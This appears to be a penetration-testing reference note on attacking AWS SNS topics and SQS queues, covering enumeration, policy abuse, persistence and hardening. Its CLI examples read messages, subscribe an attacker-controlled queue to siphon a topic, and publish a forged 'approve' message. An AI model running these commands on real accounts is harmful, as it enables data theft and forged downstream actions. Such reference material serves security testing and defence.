

# 19 - AWS SNS and SQS Exploitation

## 1. Executive Summary

SNS (pub/sub topics) and SQS (queues) carry application messages — often **sensitive data** and **trigger events** that downstream Lambdas/services act on. Attacks: **read** queue messages (`sqs:ReceiveMessage`) to exfil data; **inject** messages (`sns:Publish`/`sqs:SendMessage`) to drive downstream logic (forge events a consumer trusts); and **hijack access policies** (`sns:AddPermission`/`sqs:AddPermission`) to grant yourself or another account read/write — including cross-account subscription to siphon a topic's stream.

## 2. Service Overview & Architecture

**SNS topic** fans out messages to subscribers (SQS, Lambda, HTTP, email). **SQS queue** holds messages for polling consumers. Both are gated by IAM + a **resource (access) policy**; `AddPermission` edits that policy. Messages may be the trust boundary — consumers often act on content without re-validating origin.

## 3. Enumeration

```bash
aws sns list-topics
aws sns get-topic-attributes --topic-arn <arn>      # access policy, subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>
aws sqs list-queues
aws sqs get-queue-attributes --queue-url <url> --attribute-names All
```

## 4. Privilege Escalation / Abuse Vectors

- **`sqs:ReceiveMessage`** — read queued messages → exfil sensitive payloads (orders, PII, tokens).
- **`sns:Subscribe`** — subscribe an endpoint you control (or cross-account SQS/HTTP) to siphon the topic's entire stream.
- **`sns:Publish` / `sqs:SendMessage`** — inject forged messages so a downstream Lambda/service performs attacker-chosen actions (logic abuse, fake events).
- **`sns:AddPermission` / `sqs:AddPermission`** — rewrite the resource policy to grant your principal / external account read/write/subscribe.
- **`sqs:DeleteMessage` / `ChangeMessageVisibility`** — drop or hide messages (tampering/DoS of processing).

```bash
aws sqs receive-message --queue-url <url> --max-number-of-messages 10
aws sns subscribe --topic-arn <arn> --protocol sqs --notification-endpoint <your-queue-arn>
aws sns publish --topic-arn <arn> --message '{"action":"approve","id":"attacker"}'
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Cross-account subscription / permissive resource policy = ongoing data siphon.
- Steady message injection to keep driving downstream effects.

## 7. Post-Exploitation / Data Access
- Message contents (PII, business data, tokens).
- Control over event-driven workflows → indirect privesc via consumer roles ([[05 - Lambda Exploitation]]).

## 8. Detection & Hardening
1. Tight resource policies (no `*` principal); restrict `AddPermission`, `Subscribe`, `ReceiveMessage`.
2. Encrypt (SSE/KMS); have consumers validate message origin/content (don't trust by arrival).
3. Alert on new subscriptions, policy changes, cross-account access, unusual receive/publish volume.

## 9. Chaining / Related Notes
- Downstream trigger: **[[05 - Lambda Exploitation]]**. Cross-account: **[[02 - STS Exploitation]]**.
- Email channel cousin: **[[20 - SES Exploitation]]**.

## 10. Tools
`aws sns`, `aws sqs`, `pacu`, `ScoutSuite`.
